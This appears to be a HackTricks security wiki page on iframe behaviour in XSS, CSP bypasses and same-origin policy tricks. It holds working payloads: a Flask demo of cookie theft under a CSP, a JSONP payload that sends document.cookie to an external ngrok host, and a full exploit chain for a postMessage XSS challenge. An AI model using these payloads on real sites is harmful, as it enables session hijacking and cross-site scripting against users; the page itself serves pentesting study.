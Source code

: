 # Iframes in XSS, CSP and SOP

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Iframes in XSS

There are 3 ways to indicate the content of an iframed page:

* Via `src` indicating an URL (the URL may be cross origin or same origin)
* Via `src` indicating the content using the `data:` protocol
* Via `srcdoc` indicating the content

**Accesing Parent & Child vars**

```html
<html>
  <script>
  var secret = "31337s3cr37t";
  </script>

  <iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if2" src="child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

  <script>
  function access_children_vars(){
    alert(if1.secret);
    alert(if2.secret);
    alert(if3.secret);
    alert(if4.secret);
  }
  setTimeout(access_children_vars, 3000);
  </script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```

If you access the previous html via a http server (like `python3 -m http.server`) you will notice that all the scripts will be executed (as there is no CSP preventing it)., **the parent won’t be able to access the `secret` var inside any iframe** and **only the iframes if2 & if3 (which are considered to be same-site) can access the secret** in the original window.\
Note how if4 is considered to have `null` origin.

## Iframes with CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Please, note how in the following bypasses the response to the iframed page doesn't contain any CSP header that prevents JS execution.
{% endhint %}

The `self` value of `script-src` won’t allow the execution of the JS code using the `data:` protocol or the `srcdoc` attribute.\
However, even the `none` value of the CSP will allow the execution of the iframes that put a URL (complete or just the path) in the `src` attribute.\
Therefore it’s possible to bypass the CSP of a page with:

```html
<html>
<head>
 <meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
  <script>
  var secret = "31337s3cr37t";
  </script>
  <iframe id="if1" src="child.html"></iframe>
  <iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
  <iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
  <iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```

Note how the **previous CSP only permits the execution of the inline script**.\
However, **only `if1` and `if2` scripts are going to be executed but only `if1` will be able to access the parent secret**.

![](<../../.gitbook/assets/image (627) (1) (1).png>)

Therefore, it’s possible to **bypass a CSP if you can upload a JS file to the server and load it via iframe even with `script-src 'none'`**. This can **potentially be also done abusing a same-site JSONP endpoint**.

You can test this with the following scenario were a cookie is stolen even with `script-src 'none'`. Just run the application and access it with your browser:

```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
    resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
    resp.headers['Content-Security-Policy'] = "script-src 'self'"
    resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
    return resp

@app.route("/cookie_s.html")
def cookie_s():
    return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
    app.run()
```

## Other Payloads found on the wild <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>

```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

## Iframe sandbox

The `sandbox` attribute enables an extra set of restrictions for the content in the iframe. **By default, no restriction is applied.**

When the `sandbox` attribute is present, and it will:

* treat the content as being from a unique origin
* block form submission
* block script execution
* disable APIs
* prevent links from targeting other browsing contexts
* prevent content from using plugins (through `<embed>`, `<object>`, `<applet>`, or other)
* prevent the content to navigate its top-level browsing context
* block automatically triggered features (such as automatically playing a video or automatically focusing a form control)

The value of the `sandbox` attribute can either be empty (then all restrictions are applied), or a space-separated list of pre-defined values that will REMOVE the particular restrictions.

```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```

# Iframes in SOP

In this [**challenge**](https://github.com/terjanq/same-origin-xss) created by [**NDevTK**](https://github.com/NDevTK) and [**Terjanq**](https://github.com/terjanq) **** you need you need to exploit a XSS in the coded

```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```

The main problem is that the [**main page**](https://so-xss.terjanq.me) uses DomPurify to send the `data.body`, so in order to send your own html data to that code you need to **bypass** `e.origin !== window.origin`.

## SOP bypass 1

When `//example.org` is embeded into a **sandboxed iframe**, then the page's **origin** will be **`null`**, i.e. `window.origin === 'null'`. So just by embedding the iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">` we could force the `null` origin.

If the page was **embeddable** you could bypass that protection that way (cookies might also need to be set to `SameSite=None`).

## SOP bypass 2

The lesser known fact is that when the **sandbox value `allow-popups` is set** then the **opened popup** will **inherit** all the **sandboxed attributes** unless `allow-popups-to-escape-sandbox` is set.

## Challenge Solution

Therefore, for this challenge, one could **create** an **iframe**, **open a popup** to the page with the vulnerable XSS code handler (`/iframe.php`), as `window.origin === e.origin` because both are `null`  it's possible to **send a payload that will exploit the XSS**.

That **payload** will get the **identifier** and send a **XSS** it **back to the top page** (the page that open the popup), **which** will **change location** to the **vulnerable** `/iframe.php`. Because the identifier is known, it doesn't matter that the condition `window.origin === e.origin` is not satisfied (remember, the origin is the **popup** from the iframe which has **origin** **`null`**) because `data.identifier === identifier`. Then, the **XSS will trigger again**, this time in the correct origin.

```html
<body>
  <script>
    f = document.createElement('iframe');
    
    // Needed flags
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    
    // Second communication with /iframe.php (this is the top page relocated)
    // This will execute the alert in the correct origin
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
   
   // Initial communication
   // Open /iframe.php in a popup, both iframes and popup will have "null" as origin
   // Then, bypass window.origin === e.origin to steal the identifier and communicate
   // with the top with the second XSS payload
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
  </script>
</body>
```

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

